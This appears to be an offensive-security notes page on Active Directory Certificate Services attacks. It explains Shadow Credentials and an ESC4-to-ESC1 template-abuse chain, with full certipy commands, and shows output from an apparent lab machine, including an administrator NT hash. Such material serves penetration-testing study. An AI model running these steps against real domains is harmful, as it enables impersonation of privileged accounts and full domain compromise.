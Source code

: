 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ADCS

**Active Directory Certificate Services (ADCS)** is like an internal digital ID system for a Windows domain. Instead of printing physical ID cards, it **issues digital certificates** **that users and computers can use to log in**, encrypt communications, or sign data. These certificates are trusted across the domain, so if an attacker can trick ADCS into giving them a certificate, it's similar to getting a valid employee badge — they can **impersonate someone else** and gain access.

## Shadow Credentials

The **Shadow Credentials** attack abuses the `msDS-KeyCredentialLink` attribute in AD to add a malicious authentication certificate to an account — typically a service or privileged account. This allows the attacker to **impersonate** the target account via certificate-based authentication (PKINIT), **without needing their password or hash**.

{% hint style="warning" %}
#### Requirements:

* The attacker **must have** `Write` **access** to the target's `msDS-KeyCredentialLink` attribute.
* ADCS must be configured to allow **certificate-based authentication (PKINIT)**.
{% endhint %}

`certipy shadow auto` automates the shadow credentials attack by injecting a forged certificate into a target account's `msDS-KeyCredentialLink` attribute. It authenticates with provided credentials, adds the malicious credential, and requests a certificate tied to the target:

```bash
certipy shadow auto -u <user@domain> -p <pass> -account 'ca_svc' -dc-ip <dc-ip>
```

This results in the two files and a hash:

* **`.pfx`** : contains the **certificate and private key** the attacker got from the CA. It can be imported into Windows or used with tools that support PKI authentication to authenticate as the user.
* **`.ccache`**: this is a **Kerberos credential cache** file, generated after using the certificate for PKINIT (certificate-based Kerberos auth). It allows us to **authenticate with Kerberos tickets as that user** without a password or NT hash. Tools like `impacket` or `kinit` can use it to get tickets.
* **NT hash:** this is extracted from memory (via the Key Credential attack), giving us a password-equivalent credentia**l** we can use in typical NTLM-based attacks like Pass-the-Hash or SMB authentication.

## ESC Attacks

{% hint style="info" %}
The terms **ESC1**, **ESC4**, etc., come from a **threat model and classification system** introduced by SpecterOps. These labels don’t stand for acronyms — **ESC** simply means **ESCalation** — and they’re followed by a number to identify different types of attack paths related to ADCS.
{% endhint %}

<table><thead><tr><th width="79.6666259765625">Label</th><th width="375.3333740234375">Description</th><th>Key Risk</th></tr></thead><tbody><tr><td><strong>ESC4</strong></td><td>Control over Cert Publisher user lets attacker modify templates</td><td>Template abuse (e.g., leads to ESC1)</td></tr><tr><td><strong>ESC1</strong></td><td>Weak template allows users to request certs for others (incl. admins)</td><td>Identity impersonation</td></tr></tbody></table>

{% hint style="danger" %}
This **ESC4 → ESC1** chain is especially dangerous as it **leverages legitimate ADCS functionality**, making detection difficult. Issued certificates may remain valid for years, providing **long-term persistence** unless explicitly revoked. For an example of this attack chain see [EscapeTwo](https://x7331.gitbook.io/boxes/boxes/easy/escapetwo#privilege-escalation).
{% endhint %}

### Template Abuse (ESC4)

**ESC4** is a misconfiguration where a low-privileged user can take control of another account — typically a member of the `Cert Publishers` group. Since `Cert Publishers` can modify certificate templates, gaining control of such an account lets an attacker edit a template to make it vulnerable to **ESC1**. This means weakening the template's settings to allow certificate requests without proper validation or approval, enabling certificate-based impersonation of privileged users.

{% tabs %}
{% tab title="1. Enumerate writable templates" %}
{% code overflow="wrap" %}
```bash
# Enumerate vulnerable templates
$ certipy find -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -stdout -vuln
...
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
...
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```
{% endcode %}
{% endtab %}

{% tab title="2. Modify the template" %}
{% code overflow="wrap" %}
```bash
# Make the template vulnerable to ESC1
$ certipy template -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -write-default-configuration
...
[*] Successfully updated 'DunderMifflinAuthentication'
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Identity Hijack (ESC1)

Once the template is misconfigured, the attacker can request a certificate for a privileged account like a `Domain Admin`. Because validation is bypassed, ADCS issues a valid certificate, allowing the attacker to authenticate as that user, extract credentials (e.g., NTLM hashes), and escalate to full domain control.

{% tabs %}
{% tab title="1. Request Certificate" %}
{% code overflow="wrap" %}
```bash
# Request a certificate for the Administrator account
$ certipy req -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn administrator@sequel.htb -target dc01.sequel.htb -target-ip 10.10.11.51
...
[*] Wrote certificate and private key to 'administrator.pfx'
```
{% endcode %}
{% endtab %}

{% tab title="2. Authenticate" %}
{% code overflow="wrap" %}
```bash
# Authenticate as the administrator using the PFX file
$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.51
Certipy v5.0.2 - by Oliver Lyak (ly4k)
...
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```
{% endcode %}
{% endtab %}
{% endtabs %}

We can then use `impacket-psexec` to get a `SYSTEM` shell.

## Resources

* SpecterOps _Certified Pre-Owned (2021)_ whitepaper ([article](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf))
* RBT's in depth article and video walkthrough about the ESC4 attack ([article](https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc4/))
